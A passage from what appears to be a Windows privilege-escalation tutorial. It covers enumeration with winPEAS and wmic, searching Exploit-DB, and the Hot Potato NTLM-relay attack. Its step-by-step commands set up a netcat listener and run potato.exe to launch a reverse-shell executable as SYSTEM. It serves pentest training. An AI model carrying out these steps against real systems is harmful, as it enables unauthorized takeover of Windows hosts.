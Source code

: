 winPEAS also has this ability (note the misspelling):

```
.\winPEASany.exe quiet procesinfo
```

We can enumerate installed applications with wmic:

```
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

### Exploit-DB

Once you've found a process that interests you, try to figure out which version it is. You can also check the config or text files in the Program Files directory, as well as executing the executable with /? or -h. To find a corresponding exploit, use Exploit-DB. Some exploits include instructions, while others need you to compile and run code.

## Hot Potato

The term "Hot Potato" refers to an attack that combines a spoofing assault with an NTLM relay attack in order to achieve SYSTEM rights. The technique convinces Windows to use NTLM to authenticate as the SYSTEM user to a bogus HTTP server. To acquire command execution, the NTLM credentials are subsequently sent to SMB. This technique is capable of infecting Windows 7, 8, and early versions of Windows 10, as well as their server counterparts.

### Hot Potato Privilege Escalation

1\. Copy the potato.exe exploit executable over to Windows.&#x20;

2\. Start a listener on your host (e.g Kali or Parrot):

```
nc -lvnp <PORT>
```

3\. Run the potato exploit:

```
.\potato.exe -ip 192.168.10.10 -cmd "C:\Users\Public\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

4\. Wait for a Windows Defender update, or trigger one manually

## Juicy Potato

### Rotten Potato

In 2016, the original Rotten Potato flaw was discovered. A SYSTEM ticket could be intercepted by a service account and used to impersonate the SYSTEM user. Because service accounts typically have the “SeImpersonatePrivilege” ability enabled, this was conceivable.

### Juicy Potato Privilege Escalation
